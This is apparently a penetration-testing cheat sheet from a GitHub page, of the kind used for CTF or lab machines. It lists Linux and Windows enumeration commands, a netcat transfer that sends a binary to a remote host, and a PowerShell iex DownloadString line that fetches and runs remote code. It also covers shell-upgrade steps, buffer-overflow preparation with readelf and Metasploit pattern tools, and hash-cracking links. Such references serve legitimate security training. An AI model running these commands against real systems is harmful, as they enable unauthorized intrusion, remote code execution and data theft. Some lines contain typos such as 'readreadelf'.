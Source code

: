 Tips
=================================================

LinuxEnum: 
--------------------------------------------------

find / -perm -4000 2>/dev/null   //SUID files  \n
uname -a                         //Posible Linux Kernel Exploit

WindowsEnum:
--------------------------------------------------
whoami /all
systeminfo


File Transfer:
--------------------------------------------------
### nc:
nc -l -p 4445 > ovrflw
nc -w 5 10.10.14.18 4445 < /usr/local/bin/ovrflw

### powershell:

iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:8000/file')
Invoke-WebRequest "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"
Invoke-RestMethod "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"

Interactive shell:
--------------------------------------------------
python3 -c "import pty;pty.spawn('/bin/bash')"
Ctrl+Z
stty raw -echo
fg

BufOverFlow:
--------------------------------------------------
ldd ovrflw | grep libc
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit 

Create pattern: /opt/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Pattern Offset: /opt/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x0000000


Hashes decrypt:
--------------------------------------------------
https://cmd5.ru/
https://hashes.org/

Links:
--------------------------------------------------
https://book.hacktricks.xyz/    /////Cheat Sheet Pentesting all the thing
https://github.com/egre55/ultimate-file-transfer-list/blob/master/README.md    //////File Transfer Cheat Sheet
https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/   /////////SMB enumeration CheatSheet
https://tcm-sec.com/2019/05/25/buffer-overflows-made-easy/    //////////BuferOverFlow tutor
